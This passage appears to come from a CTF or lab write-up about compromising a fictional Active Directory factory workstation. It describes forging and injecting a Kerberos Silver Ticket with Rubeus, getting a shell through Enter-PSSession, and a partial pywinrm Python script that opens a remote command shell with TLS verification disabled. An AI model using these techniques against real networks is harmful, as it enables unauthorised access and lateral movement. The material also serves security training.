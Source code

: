 The first step is to forge the Silver Ticket and inject it into the current session using [Rubeus](https://github.com/GhostPack/Rubeus), as shown below:

![rubeus_ptt_factws.png](./writeup/imgs/rubeus_ptt_factws.png)

You can then simply use `Enter-PSSession` (and disable TLS/SSL verification) to get an interactive shell:

![enter_pssession_factws.png](./writeup/imgs/enter_pssession_factws.png)

> Remember to add the `factws.factories.mammamia.local` hostname to your `C:\Windows\System32\drivers\etc\hosts` file.

##### pywinrm

One last method I'd like to show is using the `pywinrm` package and a custom Python script to interact with the factory PC. This method provides a quick and easy way to interact with the factory PC using Python and offers more flexibility than the other methods. You will however only get a semi-interactive shell (`cmd.exe`), and not an interactive PowerShell session.

```python
from winrm.protocol import Protocol
import readline
import sys

readline.parse_and_bind('tab: complete')

session = Protocol(endpoint='https://factws.factories.mammamia.local:5986/wsman', transport='kerberos', realm="factories.mammamia.local", server_cert_validation='ignore')


shell_id = session.open_shell()

while True:
    command = input("Enter command: ")
    if command == "exit":
        break

    command_id = session.run_command(shell_id, command)
```